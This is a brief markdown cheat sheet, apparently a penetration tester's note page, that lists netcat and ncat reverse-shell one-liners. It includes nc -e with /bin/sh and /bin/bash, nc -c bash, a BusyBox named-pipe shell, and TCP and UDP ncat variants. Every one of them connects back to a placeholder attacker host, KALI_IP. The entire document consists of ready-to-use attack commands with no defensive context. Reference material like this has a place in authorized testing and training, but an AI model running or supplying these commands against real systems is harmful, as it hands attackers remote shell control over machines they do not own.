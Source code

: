 ```yaml
---
title: Netcat Reverse Shells
description: 
draft: false
tags: 
date: 2024-10-19
---
```

## Basic Netcat Reverse Shells

```bash
nc -e /bin/sh KALI_IP 9999
```

```bash
nc -e /bin/bash KALI_IP 9999
```

```bash
nc -c bash KALI_IP 9999
```

## Netcat BusyBox Reverse Shell

```bash
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc KALI_IP 9999 >/tmp/f
```

## Ncat Reverse Shells

```bash
ncat KALI_IP 4242 -e /bin/bash
```

```bash
ncat --udp KALI_IP 4242 -e /bin/bash
```